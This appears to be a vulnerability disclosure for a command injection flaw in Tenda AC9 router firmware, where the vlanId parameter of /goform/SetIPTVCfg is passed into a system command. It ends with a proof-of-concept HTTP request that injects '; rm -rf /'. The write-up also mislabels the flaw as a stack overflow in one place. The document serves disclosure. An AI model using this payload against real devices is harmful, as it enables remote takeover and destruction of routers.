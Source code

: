 # Tenda AC9 V1.0 V15.03.05.14_multi Command Injection Vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the vlanId parameter of route /goform/SetIPTVCfg has a Command Injection Vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetIptv function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function retrieves the vlanId parameter from a POST request.

![img](./img/SetIPTVCfg1.png)

![img](./img/SetIPTVCfg2.png)

The sub_AFE44 function and the sub_B0030 function, when processing the vlanId parameter, are concatenated to the format string in doSystemCmd and then executed. An attacker can construct the malicious parameter "vlanId" to enable remote code execution.

![img](./img/SetIPTVCfg3.png)

![img](./img/SetIPTVCfg4.png)

## Poc
```py
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

stbEn=1&igmpEn=1&iptvType=&vlanId=; rm -rf /&list=33,35
```
